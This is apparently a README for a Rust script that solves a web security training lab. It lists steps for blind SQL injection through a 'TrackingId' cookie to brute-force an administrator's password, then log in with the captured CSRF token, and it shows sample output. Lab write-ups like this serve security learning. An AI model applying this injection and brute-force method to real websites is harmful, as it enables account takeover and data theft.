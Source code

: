 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional responses
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length .. 
❯❯ Checking if length = 8
❯❯ Checking if length = 15
        .........
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. (30%):   0 c    a f  e    c
⦗2⦘ Brute forcing password.. (50%):   0 cw t avf  e   pc
        .........
⦗2⦘ Brute forcing password.. (100%): fd0rcwutjavfb5e28vpc
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
